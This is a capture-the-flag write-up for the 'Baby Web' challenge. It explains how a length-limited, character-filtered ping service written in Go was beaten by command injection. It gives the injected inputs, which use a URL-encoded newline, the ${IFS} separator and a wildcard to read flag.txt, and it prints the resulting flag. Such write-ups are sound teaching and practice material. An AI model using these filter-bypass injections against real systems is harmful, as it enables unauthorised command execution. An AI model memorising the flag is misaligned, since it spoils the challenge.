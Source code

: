 # Baby Web [428 Points]
*Solved By r0han*

You are given the source code in a main.go file and the hosted site.

## Solution

From Source code we know there there are two checks

1. Length cannot exceed 15 characters
2. Cannot contain !\"#%&'+,-/:;<=>?@[\\]^_`|~ 

We therefore need to find creative ways to get around this.
First we supply input as `0%0Als``
```
0 - Ping address 0 to end the ping command
%0A (new line character) - So we can start a new command much like how ; works. %0A is URL encoded hence escapes the checks and renders as 1 character length only
ls - To list files
```

This shows us that the current directory contains the file flag.txt. Now we need to craft the input to open the file.
To do this we inject the command `0%0Acat${IFS}fla*`
Let's break it down
```
0%0A - Mentioned earlier
cat  Open the file
${IFS} - separator since %20 for space doesnt work
fla* - * since we cannot have more than 15, use wildcard to match flag.txt, will work since only 1 file that start with fla
```

```
Flag: STANDCON{1nj3ct1On_@+_uR_c0MM@Nd}
```

